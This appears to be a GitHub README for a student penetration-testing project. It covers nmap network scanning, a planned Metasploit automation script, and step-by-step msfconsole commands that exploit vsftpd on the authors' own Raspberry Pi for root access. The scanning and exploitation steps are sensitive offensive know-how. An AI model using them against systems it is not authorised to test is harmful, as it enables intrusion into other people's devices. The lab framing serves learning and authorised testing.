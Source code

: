 Device Discovery and Exploitation Scripts
==

I. Installing Required Libraries/Software nmap and Running nmap_scanner.py
---

1. To install nmap, run the following:

`$ sudo apt-get update`

`$ sudo apt-get install nmap` [Warning: Might have to move the downloaded nmap directory into the python directory]

If you've run these commands and get an "nmap not found" type error when running `nmap_scanner.py`, try `sudo apt-get install python-nmap`, `sudo apt-get install python3-nmap`, or `pip install nmap`.

2. To install MetaSploit, use the [free installer](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers), which contains all dependencies needed for `exploitation_script.py`.

II. `nmap_scanner.py`
--

This script scans for devices and services on a network the Kali Linux device is connected to.

To run this script, navigate to the directory it's in, then run:

`sudo python3 nmap_scanner.py`

When ran, it generates console output as well as a file in the current directory called `targets.txt`. This file contains a table of values with each line being a device or service discovered. The columns of the table are:

`port` | `state` | `name` | `product` | `version` | `extrainfo` | `ocpe` | `ip`

`port` is the network port the device/service is running on

`state` is the state of the `port` (such as `open`)

`name` is the type of service (e.g., ftp, ssh, https)

`product` is the name of the device/service

`version` is the current version of the device/service

`extrainfo` is a field `nmap` gives containing any other information

`ocpe` contains operating system information

`ip` is the IP address of the device/service.

To view just a page of `targets.txt`, in the same directory as `nmap_scanner.py` was run, run `less targets.txt`. As the results from a scan can be very large, this is often preferable to `cat targets.txt`, which displays the whole file.

Future development plans include:

1. `exploitation_script.py` using the information in `targets.txt` to automate the exploitation process.
2. Changing the formatting of `targets.txt` to be both more visually pleasing and useful to `exploitation_script.py`.

<!-- For this project, we have generated our [own network using a Raspberry Pi](https://thepi.io/how-to-use-your-raspberry-pi-as-a-wireless-access-point/). When nmap_scanner.py is ran, it will generate an output file containing a matrix full of information related to the target device(s). This information is  The most critical component of information is the `state`, as it will give the port number that is open on the target device. `name` contains the product's name, and `version` contains its version number. The file `nmap_scanner.py` generates is called `targets.txt`. In future development, `exploitation_script.py` will use this file by tokenizing it and running exploit scans on every target device. The user can then choose which device they want to exploit, and `exploitation_script.py` will execute it. -->

III. `exploitation_script.py` (In Progress)
--

This script, still under development, will search an [open-sourced MetaSploit library's database](https://pypi.org/project/pymetasploit3/) for exploits of devices and services listed in `targets.txt`. The user may then choose an exploit to compromise a device or service.

To run this script:

1. Start the MetaSploit console (`$ msfconsole`, see next section) in the background in a different shell window. It will be accessed by `exploitation_script.py` running on an alternative shell, so don't close out of it or run multiple instances. The latter will cause a traceroute error to occur. 
2. Navigate to the directory `exploitation_script.py` is in (you're usually already there having run `nmap_scanner.py`), then run:

`sudo python3 exploitation_script.py`

Future development plans include:

1. `exploitation_script.py`'s search using the information in `targets.txt` functioning properly
2. Automating away much of what's seen in Section IV for ease of use

<!-- `exploitation_script.py` will open the `nmap_scanner.py`-generated `targets.txt` file. It will then search for potential exploits for every single target device listed, displaying them to the user who can choose a specific device to exploit. Using , the exploitation process is automated and `exploitation_script.py` uses the byte payload generated by MetaSploit to compromise the user's chosen target device. -->

IV. Using MetaSploit Console
--

As development of `exploitation_script.py`, whose goal is to automate this process, continues, an alternative method is running exploits via MetaSploit console commands.

Initiate MetaSploit (in a different window than you ran `nmap_scanner.py`) in with the following command:

`$ msfconsole`

It may ask for you to set a password. Once the console has started in that new window (NOTE: if you close out of it or run multiple instances, you'll get a traceroute error), follow these steps to run an exploit:

1. Search for the chosen device/service in the MetaSploit database:

    `search (device/service name)` // In our test case, we're exploiting `vsftpd` running on an Ubuntu MATE Raspberry Pi
    
2. Use your chosen exploit by exploit index number:

    `use (idx)` // In our test case, there's just one exploit in the database, so we `use 0`
    
3. If it doesn't start, show options that you need to configure:

    `show options`
    
4. Fill out any missing options. For us, we needed to set the RHOSTS option to the device's IP address:

    `set RHOSTS (target device IP)`
    
5. You may need to fill out other options as well. We did:

    `set LHOST localhost`
    `set LPORT 443`
    
6. Finally, run the exploit:

    `run`
    
    In our test case, this grants root access to the device running `vsftpd`.
